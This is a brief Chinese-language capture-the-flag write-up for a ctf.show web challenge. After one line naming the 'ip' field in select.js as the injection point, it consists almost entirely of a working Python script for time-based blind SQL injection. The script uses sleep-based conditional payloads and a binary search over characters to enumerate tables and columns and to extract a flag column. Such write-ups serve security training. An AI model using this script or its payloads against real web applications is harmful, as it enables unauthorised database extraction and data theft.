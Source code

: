 
主页找到select.js中，测试后发现ip为注入点

```python
import requests

url = "http://fe78d582-57da-4291-845f-1e8ff2936104.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
		# 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
        # 爆字段
        payload = "select flaga from ctfshow_flagx"
        data = {
            'ip': f"if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=1)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```

